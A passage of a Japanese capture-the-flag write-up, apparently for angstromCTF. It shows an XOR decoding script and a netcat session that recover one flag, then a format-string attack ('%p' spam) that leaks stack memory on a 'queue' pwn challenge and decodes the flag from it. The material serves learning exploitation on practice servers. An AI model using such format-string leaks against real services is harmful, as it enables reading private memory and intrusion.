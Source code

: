 ```text
anextremelycomplicatedkeythatisdefinitelyuselessss
```

のxorをとる。

```python
s1 = "anextremelycomplicatedkeythatisdefinitelyuselessss"
s2 = "2& =$!-( <*+*( ?!&$$6,. )\' $19 , #9=!1 <*=6 <6;66#"
for i, j in zip(s1, s2):
    print(chr(ord(i)^ord(j)), end='')
```

```text
SHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEP
```

という文字列が得られる。

回答は以下。0x1337は10進数で4919。

```text
$ nc challs.actf.co 32760
I'm going to sleep. Count me some sheep: 4919
Nice, now reset it. Bet you can't: 1
Okay, what's the magic word?
SHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEPSHEEP
actf{g00dnight_c7822fb3af92b949}
```

## pwn

### queue

ユーザからの入力がそのまま出力されるようだ。
これはFormat String Attackが使えそう。

```bash
$ nc challs.actf.co 31322
What did you learn in class today? %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Oh nice, 0x7ffefaff7040(nil)0x7f5eb434fa370x90x559beaca14900x3e8000000000x559beaca02a00x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x257025702570250x3474737b667463610x75715f74695f6b630x615f74695f6575650x34373964613931360x7d32326234363863(nil)(nil)(nil)(nil)(nil)sounds pretty cool!
```

出てきた16進数を文字列に戻すと、

```text
4ts{ftcauq_ti_kca_ti_eue479da916}22b468c
```

が得られる。
これを先頭から8文字ずつ取って、逆順にするとflagが得られる。
